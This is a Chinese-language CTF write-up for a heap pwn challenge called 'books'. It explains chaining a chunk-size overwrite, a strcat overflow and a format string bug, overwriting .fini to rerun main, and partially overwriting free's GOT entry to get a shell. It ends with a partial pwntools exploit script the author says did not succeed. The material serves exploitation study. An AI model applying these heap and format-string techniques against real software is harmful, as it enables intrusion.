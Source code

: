 我们发现在`submit`函数这里存在溢出，我们通过修改已经free的chunk2的size为0x151这样在我们malloc是就会得到这款内存，进而在`submit`函数中溢出`dest`，利用格式化字符串。

但是还有一个问题，我们在格式化字符串之后没有再call任何函数，所以我们通过修改`.fini`section为`main`的地址，以再结束后再次运行到`main`，关于`.fini`的作用在[这篇](http://l4u-00.jinr.ru/usoft/WWW/www_debian.org/Documentation/elf/node3.html)中提到了

> .fini
This section holds executable instructions that contribute to the process termination code. That is, when a program exits normally, the system arranges to execute the code in this section.
.init
This section holds executable instructions that contribute to the process initialization code. That is, when a program starts to run the system arranges to execute the code in this section before the main program entry point (called main in C programs).

总结来说，.fini是程序结束时的全局析构函数的地址，我们可以通过修改这个来得到控制流。

在程序刚开始的时候就malloc了三个连续的chunk，我们可以随意溢出，但是后面接着的`strcpy`会截断我们的溢出，以至于格式化字符串不能利用，于是我们只能利用`submit`这个还能输里面的`strcat`来溢出`dest`里的字符串来得到格式化字符串。

所以思路如下：
1. free掉chunk2
2. 溢出chunk1将chunk2修改为0x151，这样我们在submit的时候就会分配到这个位置
3. submit溢出dest，利用格式化字符串修改free的低2位（其中1位需要猜，1/16概率），同时修改`.fini`为程序开始
4. 传入/bin/sh，得到shell

由于我们只能控制eip两次，所以不能有泄露的步骤了，下面的exp是有泄露的步骤的，没有成功
```
#!/usr/bin/env python
# coding=utf-8
from pwn import *

slog = 1 
local = 1
debug = 0

global p
context(arch='amd64')

if slog: context(log_level = 'debug')
if local:
    p = process('./books')
    libc =  ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
    p = remote()

if local and debug:
    gdb.attach(p, open('debug'))

elf = ELF('./books')
free_got = elf.got['free']

def edit1(payload):
    p.recvuntil('Submit\n')
    p.sendline('1')
    p.recvuntil('order:\n')
    p.sendline(payload)

def edit2(payload):
    p.recvuntil('Submit\n')
    p.sendline('2')
    p.recvuntil('order:\n')
    p.sendline(payload)

def dele(index):
    p.recvuntil('Submit\n')
    p.sendline(str(index + 2))
```